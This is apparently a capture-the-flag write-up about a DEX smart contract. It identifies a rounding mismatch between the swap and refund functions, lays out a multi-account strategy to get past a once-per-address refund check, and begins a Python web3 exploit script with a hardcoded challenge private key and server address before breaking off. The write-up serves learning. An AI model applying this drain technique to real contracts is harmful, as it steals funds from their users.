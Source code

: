 ```solidity
    hasRefunded[msg.sender] = true;
    payable(msg.sender).transfer(netEth);
    
    emit HeliosRefund(item, amount, netEth);
}
```

## Identifying the Vulnerability

After careful examination, I identified a subtle vulnerability in the math rounding modes used between swap and refund functions:

1. The `swapForHLS` function uses `Math.Rounding(3)` (rounds up) when converting ETH to HLS tokens
2. The `swapForMAL` function uses `Math.Rounding(1)` (rounds down) for similar calculation
3. The `oneTimeRefund` function does not specify a rounding mode (which defaults to rounding toward zero)

This inconsistency creates an arbitrage opportunity, particularly with the HLS token. When you swap ETH for HLS tokens, the amount is rounded up. But when you refund those tokens, the ETH amount is calculated without rounding up, giving you more ETH back than you put in!

However, there's a limitation: each address can only refund once due to the `hasRefunded[msg.sender]` check. We can bypass this by creating multiple temporary accounts.

## The Exploitation Strategy

Our strategy:
1. Create a new account
2. Transfer some ETH from the player account to this new account
3. Use this account to swap ETH for tokens (preferably MAL tokens)
4. Approve the DEX contract to spend these tokens
5. Refund the tokens for ETH (getting more back due to the rounding inconsistency)
6. Transfer all ETH back to the player account
7. Repeat with new accounts until reaching 20 ETH

## Implementing the Exploit

Here's a Python script (`exploit_mal.py`) that implements this strategy:

```python
#!/usr/bin/env python3
from web3 import Web3
import time
import sys

# Connection info
PLAYER_PRIVATE_KEY = "b93f4e9087027d57f858b2adcaf82017a8ca8ada903563bd1d87105cba8ef869"
PLAYER_ADDRESS = "0x127c4d11A66c604a6c0B9315Dd679889eCae002A"
TARGET_ADDRESS = "0xBf2aca103E0F2781C4a33BFD5Fb3aE31BDE09E64"
SETUP_ADDRESS = "0x1b24AD2CAe6b72a5f22c7c69Fd2Fb4C865B6fb1f"
CHAIN_ID = 31337
ETH_AMOUNT = 0.3  # Amount to use per exploit

# Connect to blockchain
w3 = Web3(Web3.HTTPProvider('http://83.136.253.25:32922'))
if not w3.is_connected():
    print("Failed to connect to blockchain")
    sys.exit(1)

# ABIs
heliosdex_abi = [
    {"inputs": [], "name": "malakarEssence", "outputs": [{"internalType": "contract MalakarEssence", "name": "", "type": "address"}], "stateMutability": "view", "type": "function"},
```